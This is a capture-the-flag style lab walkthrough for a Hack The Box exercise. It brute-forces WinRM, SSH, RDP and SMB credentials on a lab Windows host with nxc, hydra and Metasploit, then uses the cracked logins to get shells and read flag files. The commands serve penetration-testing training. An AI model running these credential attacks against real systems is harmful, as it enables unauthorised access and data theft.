

## Network Services

1. crack the winrm service with htb's provided user and password list.

```
nxc winrm $target_ip -u username.list -p password.list
```

output:
```
WINRM       10.129.202.136  5985   WINSRV           [*] Windows 10 / Server 2019 Build 17763 (name:WINSRV) (domain:WINSRV) 
WINRM       10.129.202.136  5985   WINSRV           [+] WINSRV\john:november (Pwn3d!)
```

2. get shell on the windows machine using evil-winrm.

```
evil-winrm -i $target_ip -u john -p november
```

3. search for `flag.txt`.

```
*Evil-WinRM* PS C:\Users\john\Documents> Get-ChildItem -Path C:\ -Filter "flag.txt" -Recurse -File -ErrorAction SilentlyContinue
```

`-Path C:\`- start at the root of C:.

`-Filter "flag.txt"` - search for `flag.txt`.

`-Recurse` - search all subdirectories.

`-File` - return files only.

`-ErrorAction SilentlyContinue` - hide permission errors.

output:
```
    Directory: C:\Users\john\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/5/2022   8:13 AM             18 flag.txt
```

4. read the flag.

```
*Evil-WinRM* PS C:\Users\john\Documents> cat C:\Users\john\Desktop\flag.txt
```

5. crack the ssh service with htb's provided user and password list.

```
hydra -L username.list -P password.list ssh://$target_ip -t 4
```

`-t` - threads

output:
```
[22][ssh] host: 10.129.202.136   login: dennis   password: rockstar
```

6. log in to ssh.

```
ssh dennis@$target_ip
```

output:
```
dennis@WINSRV C:\Users\dennis>
```

7. find `flag.txt`.

```
dennis@WINSRV C:\Users\dennis>where /r C:\ flag.txt 2>nul
```

`/r C:\` - recursively search drive C:.

`2>nul` - hide error messages.`

output:
```
C:\Users\dennis\Desktop\flag.txt
```

8. read the flag.

```
dennis@WINSRV C:\Users\dennis>type C:\Users\dennis\Desktop\flag.txt
```

9. crack the rdp service with htb's provided user and password list.

```
hydra -L username.list -P password.list rdp://$target_ip
```

output:
```
[3389][rdp] host: 10.129.202.136   login: chris   password: 789456123
```

10. connect to rdp and read the flag.

```
xfreerdp /v:$target_ip /u:chris /p:789456123
```

<p align="center">
  
</p>

11. crack the smb service with htb's provided user and password list.

```
hydra -L username.list -P password.list smb://$target_ip
```

output:
```
[ERROR] invalid reply from target smb://10.129.202.136:445/
```

hydra cannot handle smbv3 replies.

12. use msfconsole to brute force smb.

```
msfconsole
```

```
msf > use auxiliary/scanner/smb/smb_login

msf auxiliary(scanner/smb/smb_login) > set user_file username.list
user_file => username.list

msf auxiliary(scanner/smb/smb_login) > set pass_file password.list
pass_file => password.list

msf auxiliary(scanner/smb/smb_login) > set rhosts 10.129.202.136
rhosts => 10.129.202.136

msf auxiliary(scanner/smb/smb_login) > run
```

output:
```
[+] 10.129.202.136:445    - 10.129.202.136:445    - Success: '.\john:november'
[+] 10.129.202.136:445    - 10.129.202.136:445    - Success: '.\dennis:rockstar'
[+] 10.129.202.136:445    - 10.129.202.136:445    - Success: '.\chris:789456123'
[+] 10.129.202.136:445    - 10.129.202.136:445    - Success: '.\cassie:12345678910'
```

13. enumerate the shares each account can access.

```
nxc smb $target_ip -u john -p november --shares
nxc smb $target_ip -u dennis -p rockstar --shares
nxc smb $target_ip -u chris -p 789456123 --shares
nxc smb $target_ip -u cassie -p 12345678910 --shares
```

output:
```
SMB         10.129.202.136  445    WINSRV           [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:True) (SMBv1:None)
SMB         10.129.202.136  445    WINSRV           [+] WINSRV\john:november 
SMB         10.129.202.136  445    WINSRV           [*] Enumerated shares
SMB         10.129.202.136  445    WINSRV           Share           Permissions     Remark
SMB         10.129.202.136  445    WINSRV           -----           -----------     ------
SMB         10.129.202.136  445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.202.136  445    WINSRV           C$                              Default share
SMB         10.129.202.136  445    WINSRV           CASSIE                          
SMB         10.129.202.136  445    WINSRV           IPC$            READ            Remote IPC
SMB         10.129.202.136  445    WINSRV           [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:True) (SMBv1:None)
SMB         10.129.202.136  445    WINSRV           [+] WINSRV\dennis:rockstar 
SMB         10.129.202.136  445    WINSRV           [*] Enumerated shares
SMB         10.129.202.136  445    WINSRV           Share           Permissions     Remark
SMB         10.129.202.136  445    WINSRV           -----           -----------     ------
SMB         10.129.202.136  445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.202.136  445    WINSRV           C$                              Default share
SMB         10.129.202.136  445    WINSRV           CASSIE                          
SMB         10.129.202.136  445    WINSRV           IPC$            READ            Remote IPC
SMB         10.129.202.136  445    WINSRV           [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:True) (SMBv1:None)
SMB         10.129.202.136  445    WINSRV           [+] WINSRV\chris:789456123 
SMB         10.129.202.136  445    WINSRV           [*] Enumerated shares
SMB         10.129.202.136  445    WINSRV           Share           Permissions     Remark
SMB         10.129.202.136  445    WINSRV           -----           -----------     ------
SMB         10.129.202.136  445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.202.136  445    WINSRV           C$                              Default share
SMB         10.129.202.136  445    WINSRV           CASSIE                          
SMB         10.129.202.136  445    WINSRV           IPC$            READ            Remote IPC
SMB         10.129.202.136  445    WINSRV           [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:True) (SMBv1:None)
SMB         10.129.202.136  445    WINSRV           [+] WINSRV\cassie:12345678910 
SMB         10.129.202.136  445    WINSRV           [*] Enumerated shares
SMB         10.129.202.136  445    WINSRV           Share           Permissions     Remark
SMB         10.129.202.136  445    WINSRV           -----           -----------     ------
SMB         10.129.202.136  445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.202.136  445    WINSRV           C$                              Default share
SMB         10.129.202.136  445    WINSRV           CASSIE          READ,WRITE      
SMB         10.129.202.136  445    WINSRV           IPC$            READ            Remote IPC
```

only `cassie` has read,write permissions for the `CASSIE` share.

14. open `CASSIE`.

```
smbclient -U cassie \\\\$target_ip\\CASSIE
```

output:
```
smb: \>
```

15. list files and directories.

```
smb: \> ls
  .                                  DR        0  Sun Nov 15 10:45:04 2026
  ..                                 DR        0  Sun Nov 15 10:45:04 2026
  desktop.ini                       AHS      282  Thu Jan  6 09:44:52 2022
  flag.txt                            A       16  Thu Jan  6 09:46:14 2022
```

16. download `flag.txt`.

```
smb: \> get flag.txt
```

output:
```
getting file \flag.txt of size 16 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

17. read the flag.

```
cat flag.txt
```